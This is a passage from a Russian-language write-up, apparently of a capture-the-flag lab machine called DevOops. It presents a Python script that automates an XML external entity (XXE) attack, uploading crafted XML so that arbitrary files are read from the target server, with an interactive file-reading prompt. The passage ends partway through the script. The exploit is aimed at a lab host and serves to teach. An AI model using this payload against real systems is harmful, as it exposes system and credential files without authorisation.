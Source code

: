 Вуаля, у нас есть XXE.

## XXE автоматизация
Очень скоро мне надоело ручками изменять строку с тем файлом, который я хочу прочитать, поэтому был написан простой скрипт, в интерактивном (и не очень) режиме позволяющий узнать содержимое нужного файла:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Usage: python3 devoops_xxe.py [FILENAME]

import requests
import re
import sys

URL = 'http://10.10.10.91:5000/upload'
REGEX = re.compile(r' Subject: (.*?)\n Content:', re.DOTALL)


def getFileContents(filename):
	xxe = f'''<?xml version="1.0" encoding="utf-8"?>
        <!DOCTYPE foo [
            <!ELEMENT foo ANY>
            <!ENTITY xxe SYSTEM "file://{filename}">
        ]>

        <entry>
            <Author>3V1LH4CK3R</Author>
            <Subject>&xxe;</Subject>
            <Content>3V1LH4CK3R's content</Content>
        </entry>'''

	files = {'file': ('xxe.xml', xxe, 'text/xml')}  # filename, content_type and headers
	proxies = {'http': 'http://127.0.0.1:8080'}  # debug proxy (e. g. Burp)
	res = requests.post(URL, files=files, proxies=proxies, timeout=0.5)

	fileContents = None
	if res.status_code == 200:
		try:
			fileContents = REGEX.search(res.text).group(1).strip()
		except AttributeError:
			pass

	return fileContents


def interactive():
	while True:
		filename = input('devoops> ').strip()
		try:
			fileContents = getFileContents(filename)
		except Exception as e:
			print('EXCEPTION: ' + str(e), end='\n\n')
		else:
			if fileContents:
				print(fileContents, end='\n\n')


def nonInteractive(filename):
	fileContents = None
	try:
		fileContents = getFileContents(filename)
```